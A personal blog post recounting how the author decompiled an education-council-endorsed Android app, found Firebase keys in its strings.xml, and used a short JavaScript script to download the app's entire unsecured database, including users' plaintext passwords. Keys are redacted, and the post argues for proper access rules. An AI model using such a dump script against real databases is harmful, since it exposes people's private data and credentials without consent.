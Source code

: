 ```yaml
---
author: 
  name: ujjujjuj
  url: https://ujwl.in
date: "2023-02-04"
title: Hacking AICTE's "Happiness App"
---
```


A few months back, my college sent every student an email asking us to download an app called _YOL - YourOneLife_ which claims to be approved by AICTE. For those of you who don't know, AICTE stands for the All India Council for Technical Education. I don't exactly know what this council does but it comes under the Indian ministry of education so it must be something serious.
<br />
<br />
This app claims to have an _inbuilt AI_ that will assess each institute's happiness index. 😱

> Students will have an opportunity to earn NFTs on the app. Students can redeem these NFTs after 6 months for various goodies and vouchers and even trade them for value.

All of this looks pretty shady to me because they're using every buzzword that exists to market their app. This motivated me to dig deep into what this application actually does, so I decided to download and check it out myself.

## First Look

As it turns out, the app is garbage. The text isn't even visible because its color is the same as the background color. I can't even figure out what to do to log in. Other people were also facing the same issue as evident from the Play Store reviews of this app.

I don't think I'll be able to check out this app in the _conventional_ way, so I decided to reverse-engineer it.

## Reverse Engineering the App

I decided to use [Apktool](https://ibotpeaches.github.io/Apktool/) to decompile the app. Apktool is a tool to reverse engineer 3rd party closed-source android apps. To be clear, it is not illegal to decompile an application. After downloading the APK file of the app, decompiling it was very easy

```plaintext
$ apktool d com.yol.apk

I: Using Apktool 2.6.1 on com.yol.apk
I: Loading resource table...
I: Decoding AndroidManifest.xml with resources...
I: Loading resource table from file: /home/ujjujjuj/.local/share/apktool/framework/1.apk
I: Regular manifest package...
I: Decoding file-resources...
I: Decoding values */* XMLs...
I: Baksmaling classes.dex...
I: Baksmaling classes2.dex...
I: Copying assets and libs...
I: Copying unknown files...
I: Copying original files...
```

The first file I went looking for is called _strings.xml_. It is where the app developer stores hardcoded strings - including database URLs, API keys, and other interesting stuff. This file had a database URL and Google API keys inside it.

```xml
<string name="firebase_database_url">https://XXXXX.firebaseio.com</string>
<string name="google_api_key">XXXXX</string>
<string name="google_app_id">XXXXX</string>
<string name="project_id">XXXXX</string>
<string name="google_storage_bucket">XXXXX.appspot.com</string>
```

It is common for apps that use Firebase to store their keys in here. Some inexperienced developers forget to secure their firebase database by not setting up proper access permissions which could very well be the case here, so I decided to access Firebase using these keys.
<br />
<br />
I wrote a script in JS to do just that

```js
import { initializeApp } from "firebase/app";
import { getDatabase, ref, onValue } from "firebase/database";
import fs from "fs";

const firebaseConfig = {
  apiKey: "XXXXX",
  authDomain: "XXXXX.firebaseapp.com",
  databaseURL: "https://XXXXX.firebaseio.com",
  projectId: "XXXXX",
  storageBucket: "XXXXX.appspot.com",
};

const app = initializeApp(firebaseConfig);
const database = getDatabase(app);
const dbRef = ref(database);
onValue(dbRef, (ss) => {
  console.log("downloaded snapshot");
  fs.writeFile("data.json", JSON.stringify(ss.val(), null, 4), "utf8", () => {
    console.log("saved");
    process.exit();
  });
});
```

And guess what, my suspicion was correct. The database was not configured properly and I was able to download all the data. I was able to download about 38MB of JSON data which contained user account data and posts. To my surprise, the user passwords were in **plaintext** and not hashed. This clearly showed that the application developer had no idea about security, or just had no regard for the safety of the users. 

## Conclusion

This is an easily preventable vulnerability. All you have to do is read the [firebase docs](https://firebase.google.com/docs/firestore/solutions/role-based-access) about database rules. AICTE should re-evaluate its approval procedure to not allow such low-quality apps to pass.
